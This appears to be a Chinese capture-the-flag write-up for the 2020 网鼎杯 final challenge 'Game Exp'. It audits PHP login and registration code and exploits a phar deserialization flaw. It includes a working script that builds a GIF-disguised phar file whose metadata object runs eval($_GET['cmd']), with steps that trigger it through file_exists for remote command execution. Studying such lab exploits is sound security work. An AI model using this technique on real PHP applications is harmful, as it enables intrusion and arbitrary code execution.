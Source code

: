 # \[网鼎杯 2020 总决赛]Game Exp

## \[网鼎杯 2020 总决赛]Game Exp

## 考点

* 代码审计
* phar反序列化

## wp

### 第一段 login/index.php

题目附件给了源码，跟着功能点审一下。直接访问靶机会跳转到登陆页面，地址是`login/index.php`。

```php
if (isset($_POST['username'])){
    session_start();
    include_once "../sqlhelper.php";
    include_once "../user.php";
    $username = addslashes($_POST['username']);
    $password = addslashes($_POST['password']);
    $mysql = new sqlhelper();
    $sql = "SELECT password,id FROM user where username = '$username'";
    $res = $mysql->execute_dql($sql);
    $row = $res->fetch_row();
    if ($row[0]==md5($password)){
        session_start();
        $_SESSION['username'] = $username;
        $_SESSION['uid'] = $row[1];
        $u = new User($row[1]);
        $_SESSION['user'] = $u;
        header("Location: ../index.php");
        exit();
    }else{
        echo "<script>alert('登陆失败');</script>";

    }
}
```

很明显要先注册，源码也给了注册的源码

### 第二段 login/register.php

上来就是一个危险类，可以代码执行。然后注册页面有个头像上传的功能，大概率是phar触发这个`AnyClass`的`__destruct`

```php
class AnyClass{
    var $output = 'echo "ok";';
    function __destruct()
    {
        eval($this -> output);
    }
}
```

![](../../.gitbook/assets/image-20210125211224940.png)

后面就是很正常的注册流程代码

![](../../.gitbook/assets/image-20210125211405342.png)

大概流程如下：

1. 对输入进行转义，并对密码md5加密
2. 设置白名单，上传图片只能是正常的图片，这个对上传进行过滤的方式也可以确定大概率要phar
3. 上传的文件最终文件名`filename`以`username.extension`方式命名
4. `file_exists`检查`filename`是否存在，可以触发phar

到这里思路大概就出来了，先注册一个用户，上传构造的phar文件，然后再去注册页面那里，利用注册，在`username`里面传`phar://***`，后面在进行拼接时会让`filename`变成`phar://***.extension`，再用`file_exists`触发phar

### 思路

先生成phar文件，改名成123.gif

```php
<?php
class AnyClass{
    var $output = "eval(\$_GET['cmd']);";
}
$a = new AnyClass();

$phar = new Phar('123.phar',0,'123.phar');
$phar->startBuffering();
$phar->setStub('GIF89a<?php __HALT_COMPILER(); ?>');


$phar->setMetadata($a);
$phar->addFromString('text.txt','test');
$phar->stopBuffering();
```

1.去注册，username我填的是peri0d，上传生成的gif

![](../../.gitbook/assets/image-20210125213435234.png)



2.上传成功后，它的名字是`peri0d.gif`，先访问一下`login/peri0d.gif`，看一下有没有成功上传

3.再回到注册那，`username`填`phar://peri0d`，用burp抓包，在Repeater那里Get传参进行命令执行即可

![](../../.gitbook/assets/image-20210125214810981.png)
